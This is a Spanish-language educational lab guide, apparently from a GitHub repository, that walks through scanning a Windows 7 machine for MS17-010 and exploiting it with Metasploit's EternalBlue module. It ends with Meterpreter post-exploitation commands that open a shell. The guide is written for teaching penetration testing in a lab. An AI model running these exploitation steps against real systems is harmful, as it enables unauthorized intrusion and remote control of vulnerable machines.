 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.png "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.png "Metasploit framework")
**Exploiting**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST < Rhost-id > 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.png "Metasploit framework")
 
**Post Exploitation**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.png "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig7-msf-console.png "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig5-msf-console.png "Metasploit framework")

Enlace para mayor información
----- https://www.metasploit.com/
